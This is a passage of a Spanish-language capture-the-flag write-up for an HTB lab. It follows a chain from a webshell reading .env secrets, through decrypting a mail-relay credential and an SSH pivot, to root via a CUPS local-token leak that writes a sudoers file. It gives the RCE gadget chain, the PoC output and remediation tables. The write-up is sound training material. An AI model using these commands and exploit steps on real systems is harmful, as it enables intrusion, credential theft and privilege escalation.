
*Fig. 6.1 — Reproducción del `POST` capturado contra `/miles/login.php` con `curl`. Es una prueba puntual de validez de la credencial, no de sesión persistente.*


*Fig. 6.2 — Respuesta `200` con título personalizado para Jenny Crawford. No aparece `Set-Cookie`; la captura no acredita continuidad de sesión.*


*Fig. 6.3 — Inspección del HTML devuelto por el replay de Miles. La captura muestra contenido del portal de millas; no muestra el token CSRF ni el formulario de Craft.*


*Fig. 6.4 — El `GET` posterior a `/miles/` vuelve a «Member Sign In». Es un control negativo: no hubo sesión persistente de Miles. La autenticación de Craft se valida por separado con `craft_login.py` y la operación RCE.*


*Fig. 6.5 — Pruebas de conectividad y de shell inversa desde el host de paso. Se muestran como intento descartado; no prueban RCE en `portal`.*


*Fig. 6.6 — La consola muestra `Connection refused` hacia el listener probado. La RCE positiva se acredita con la lectura de `o.txt` y el `id` como `www-data` del bloque anterior.*

> **Fallo de seguridad:** ejecución remota de código autenticada por instanciación de objetos controlados por el usuario en el endpoint `element-search` del control panel. El privilegio mínimo del portal no debería permitir instanciar clases del framework desde JSON.

---

## 7. Post-explotación — `.env` y credenciales de base de datos

Con el webshell se leen los secretos de la aplicación:

```bash
curl -s "http://portal.international.htb/assets/shell.php?cmd=cat%20/var/www/portal/.env"
```

```
CRAFT_SECURITY_KEY=IGckihiFK64_****
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_DATABASE=craft
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftDB_pw_****
PRIMARY_SITE_URL=http://portal.international.htb/
```

El módulo propio del portal (`modules/htbairways`, "HTB Airways Miles loyalty integration") guarda su configuración —incluido el relé de correo— en la tabla `htbairways_settings`, con el valor sensible **cifrado**.

---

## 8. Descifrado del blob del relé de correo

Craft cifra ciertos valores con la `CRAFT_SECURITY_KEY` usando el componente `Security` de Yii2 (`yii\base\Security::decrypt`). Reutilizando la clave obtenida del `.env` se descifra el blob de `htbairways_settings`:

```
mailRelayHost   mail.htbairways.htb
mailRelayUser   aporter
PW              Skyp0rt****
```

Credencial del servicio de correo del portal: **`aporter : Skyp0rt****`**.

> **Impacto observado:** con la clave de `.env` se descifró el blob del relé de correo identificado en `htbairways_settings`. Este paso depende de la RCE previa y no demuestra acceso a todos los posibles secretos de la aplicación.

---

## 9. Pivote por SSH y `user.txt`

La credencial del relé se reutiliza como contraseña del usuario Linux `aporter` en el propio `portal` (`10.13.37.10`):

```bash
read -rs SSHPASS  # introducir la contraseña descifrada del relé
export SSHPASS
sshpass -e ssh -o StrictHostKeyChecking=no aporter@10.13.37.10 \
    'id; hostname; cat ~/user.txt'
unset SSHPASS
# uid=1001(aporter) gid=1001(aporter) groups=1001(aporter)
# portal
# b6930da5****
```


*Fig. 9.1 — Preparación del pivote SSH desde el host de paso hacia `10.13.37.10` (cliente, claves y herramientas presentes).*


*Fig. 9.2 — Diagnóstico de conexión y `known_hosts` hacia el portal interno. La captura no acredita el login; el resultado de `id`, `hostname` y `user.txt` se muestra en el bloque de salida anterior.*

**`user.txt` = `b6930da5****`**

> **Fallo de seguridad:** reutilización de credenciales entre el servicio de correo del portal y la cuenta de sistema del mismo usuario, además de exposición de los secretos de configuración con el mismo material de clave que protege las sesiones.

---

## 10. Escalada de privilegios — CUPS 2.4.16 (CVE-2026-34990)

Enumeración como `aporter`:

```bash
cups-config --version
# 2.4.16
ss -ltnp | grep 631        # cupsd escucha sólo en 127.0.0.1:631
```

Se explota la fuga del token de autenticación local descrita en el [aviso de OpenPrinting para CVE-2026-34990](https://github.com/OpenPrinting/cups/security/advisories/GHSA-c54j-2vqw-wpwp) en tres pasos:

1. **Fuga del token local de `cupsd`:** un servidor IPP malicioso responde `401` con `WWW-Authenticate: Local trc="y"` para forzar a `cupsd` a reenviar su token de autenticación local; el servidor lo captura.
2. **Coacción de `cupsd`:** se crea una cola con `device-uri` apuntando al servidor IPP malicioso, provocando la conexión saliente desde `cupsd` (que corre como root).
3. **Escritura arbitraria vía `file://`:** se registra una impresora permanente cuyo `device-uri` es `file:///etc/sudoers.d/aporter-pwn` y se envía un trabajo con `application/vnd.cups-raw` + `compression=gzip`, escribiendo el contenido en el fichero indicado.

El reproducer local es [`poc_cups_34990.py`](poc_cups_34990.py). Se ejecuta ya como `aporter` en `portal`:

```bash
python3 poc_cups_34990.py
```

Salida observada, con el token redactado:

```
[*] CVE-2026-34990 | user=aporter | cupsd=127.0.0.1:631
[*] coercing cupsd → rogue server ...
[+] captured token: BFBBCF36****
[*] writing sudoers ...
[+] wrote /etc/sudoers.d/aporter-pwn
[+] ROOT: uid=0(root) gid=0(root) groups=0(root)
```

El fragmento escrito es `aporter ALL=(ALL) NOPASSWD: ALL`. Lectura de la flag de root:

```bash
sudo -n cat /root/root.txt
# 1b5b147e****
```

**`root.txt` = `1b5b147e****`**

> **Fallo de seguridad:** la cadena de fuga del token local y cola `file://` permitió escribir en `/etc/sudoers.d/` desde una cuenta sin privilegios. Remediación: instalar CUPS 2.4.17 o el paquete corregido de la distribución, y restringir la creación de colas y los `device-uri` peligrosos. Una versión nominal antigua puede tener un parche retroportado; hay que comprobar el paquete concreto.

---

## 11. Flags

| Flag | Valor (versión pública) |
|---|---|
| `user.txt` | `b6930da5****` |
| `root.txt` | `1b5b147e****` |

---

## 12. Mitigaciones recomendadas

| # | Hallazgo | Impacto | Recomendación |
|---|----------|---------|---------------|
| 1 | Portal de empleados servido por **HTTP sin cifrar** en la red Wi-Fi de acceso | Robo de credenciales (captura pasiva) | Servir el portal por **HTTPS** extremo a extremo y redirigir HTTP; HSTS |
| 2 | Cuenta del host de paso con `sudo` completo y acceso a la radio Wi-Fi | Captura del POST de otro cliente con `sudo` | Limitar el acceso administrativo y las capacidades de monitorización inalámbrica |
| 3 | Host de paso conectado a **dos redes** (gestión + Wi-Fi interna) | Puente entre segmentos | Segmentar y limitar el doble encolado; firewall entre zonas |
| 4 | **Craft CMS 5.9.8** con `element-search` que instancia objetos desde JSON | RCE autenticada | Actualizar Craft y restringir/validar la instanciación de clases del framework desde entrada del usuario |
| 5 | Secreto de integración cifrado con material accesible tras la RCE | Descifrado del blob del relé de correo observado | Aislar secretos de integración y limitar su acceso desde el proceso web |
| 6 | **Reutilización de credenciales** correo ↔ cuenta de sistema (`aporter`) | Movimiento lateral | Contraseñas únicas por servicio; rotación y gestor de secretos |
| 7 | **CUPS 2.4.16** vulnerable (`CVE-2026-34990`) | Escritura arbitraria como root → root | Instalar CUPS 2.4.17 o el parche de la distribución; restringir colas y `device-uri` |

**Cadena de confianza rota:** los puntos 2 y 1 convierten una red Wi-Fi "de acceso" en un punto de escucha con contraseñas en claro; el punto 4 convierte esa credencial en RCE; el punto 7 convierte el acceso como `aporter` en **root**.

---

## Anexo A — Intentos fallidos y por qué

Documentar lo que **no** funcionó explica la ruta elegida.

1. **Acceso directo a `10.13.37.10` desde el host atacante** → la ruta por `tun0` no alcanza `10.13.37.0/24` (paquetes bloqueados). Obligó a pivotar desde `airside-ws01`, que sí tiene `wlan2` en esa red.
2. **Subida del webshell por escritura directa en disco desde el host atacante** → inviable por el aislamiento anterior; se resolvió publicando la carga por HTTP en `10.13.37.182:8080` y descargándola con el propio RCE.
3. **Intento de transferencia con `>`** → no dejó el fichero esperado; se cambió a `curl --output <ruta>`. Otra prueba `id > .../o.txt` sí produjo salida, de modo que la evidencia no sostiene un bloqueo general de `>`.
4. **Primera petición del RCE devolvía `403`** → se ajustó el envío (sesión/CSRF y forma del payload del endpoint) hasta obtener la ejecución ciega (verificación por temporización/fichero).
5. **Verificación de sesión con lectura parcial del dashboard** → leer sólo los primeros 4000 bytes daba un falso "no autenticado" porque `csrfTokenValue` aparecía más adelante; el reproducer adjunto lee el cuerpo completo y comprueba la URL final.
6. **Prueba de inyección de comandos por temporización en la app antes del RCE** → un `sleep` en parámetros no produjo retraso (sin efecto); se descartó ese vector y se pivoteó al gadget del control panel.
7. **Prueba sobre `wlan3` y captura inicial en `mon0`** → el ajuste de canal de `wlan3` devolvió `Device or resource busy`; la primera toma en `mon0` mostró tráfico, pero todavía no el POST. La captura final en `mon0` sí mostró el frame 296.
8. **Replay de Miles sin sesión persistente** → el POST devolvió la página personalizada, pero no `Set-Cookie`; un GET posterior mostró «Member Sign In». La autenticación aprovechable se comprobó después en Craft CMS.
9. **Race condition al preparar ficheros con base64 entre el editor y la shell del host** → los ficheros no siempre eran visibles en el mismo lote de comandos; se separó la escritura de la ejecución (pausa de 1 s antes del `base64 -d`). No afecta a la validez de los pasos documentados.
10. **Autenticación SSH por contraseña rechazada en un `sshd` intermedio** (`PasswordAuthentication no`) → se usó la credencial recuperada contra el `sshd` del portal (puerto 22 del objetivo interno), donde sí aplica.

---

## Anexo B — Indicadores / comandos clave

**Puertos (objetivo):** `22` (SSH), `3389` (RDP/xrdp)
**Host de paso:** `airside-ws01` · grupos relevantes: `sudo`, `netdev`, `wireshark`
**Interfaz interna:** `wlan2` → `10.13.37.182/24`
**Red interna:** `10.13.37.0/24` · cautivo `wifi.international.htb` (`10.13.37.1`) · portal `portal.international.htb` (`10.13.37.10`)
**Endpoint de autenticación:** `POST http://portal.international.htb/miles/login.php`
**CMS:** Craft CMS 5.9.8 · panel `/admin`
**Endpoint de RCE:** `POST /admin/actions/element-search/search`
**Gadget:** `yii\behaviors\AttributeTypecastBehavior` → `[Psy\Readline\Hoa\ConsoleProcessus, 'execute']`
**Webshell:** `/assets/shell.php`
**Secreto descifrado:** `aporter : Skyp0rt****`
**Servicio vulnerable:** CUPS 2.4.16 (`CVE-2026-34990`), `cupsd` en `127.0.0.1:631`
**Fichero escrito por el LPE:** `/etc/sudoers.d/aporter-pwn`

**Credenciales (enmascaradas):**

```
contractor : Contractor****   (RDP a airside-ws01)
jenny      : Fl1ght****       (capturada en claro; portal de millas + Craft CMS)
aporter    : Skyp0rt****      (relé de correo → SSH a portal)
```

**Flags:**

```
user.txt : b6930da5****
root.txt : 1b5b147e****
```

---

## Anexo C — Cronología de la cadena

```
RDP contractor ──▶ airside-ws01 (Linux, grupos sudo/netdev/wireshark)
        │
        ├─ wlan2 → 10.13.37.0/24 (red interna Wi-Fi)
        ├─ sniff mon0 (tcpdump/tshark, modo monitor) → POST /miles/login.php en claro
        │        └─ credencial: jenny / Fl1ght****
        ├─ replay POST /miles/login.php → página puntual "Jenny Crawford"
        ├─ Craft CMS 5.9.8 /admin → RCE autenticada (element-search, Yii2 behavior)
        │        └─ webshell /assets/shell.php → www-data
        ├─ .env → CRAFT_SECURITY_KEY, craftuser/CraftDB_pw_****
        ├─ htbairways_settings + Yii2 Security → aporter/Skyp0rt****
        ├─ ssh aporter@10.13.37.10 (portal) → user.txt
        └─ CVE-2026-34990 (CUPS 2.4.16) → /etc/sudoers.d/aporter-pwn → root.txt
```
